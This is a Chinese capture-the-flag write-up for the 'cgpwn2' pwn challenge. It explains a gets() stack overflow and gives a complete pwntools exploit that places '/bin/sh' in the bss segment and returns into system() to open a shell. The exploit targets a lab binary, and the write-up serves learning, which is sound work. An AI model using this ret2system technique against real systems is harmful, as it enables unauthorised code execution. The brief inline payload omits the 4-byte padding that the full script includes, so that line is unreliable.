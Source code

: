 # 攻防世界: cgpwn2

## **[目标]**
栈溢出

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 检查保护机制，没有canary，可以溢出。

![](./pic/1.png)

- gets函数不限制输入的长度，这里可以溢出。

- 利用前面所说的方法所处溢出点的位置


![](./pic/2.png)

![](./pic/3.png)

- 溢出点是42个字节

- 在找关键字符串的时候没有发现 bin/sh 。所以我们需要将bin/sh写到我们可以访问的地址中去。我们可以在输入name的时候把 bin/sh写进去。name位于bss段，bss段保存全局变量，加载地址不会因为地址随机化的开启而有所变化。

- 将 system 的地址写到 hello 函数的返回地址中，同时将之前 bin/sh 的地址也写到栈中，作为system函数的参数。构造如下payload：

`payload = 42*'a' + p32(sys_addr) + p32(bss_addr)`

完整exp如下：

```python
from pwn import *

elf = ELF("./cgpwn2")
p = process("./cgpwn2")

bss_addr =  0x0804A080

p.recv()
p.sendline("/bin/sh\x00")

cnt = 42

sys_addr = elf.symbols['system']

p.recv()
rop = ''
rop += cnt * 'a'
rop += p32(sys_addr)
rop += 'a'*4
rop += p32(bss_addr)

p.sendline(rop)
p.interactive()
```

## **[参考阅读]**

[一步一步学习rop](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)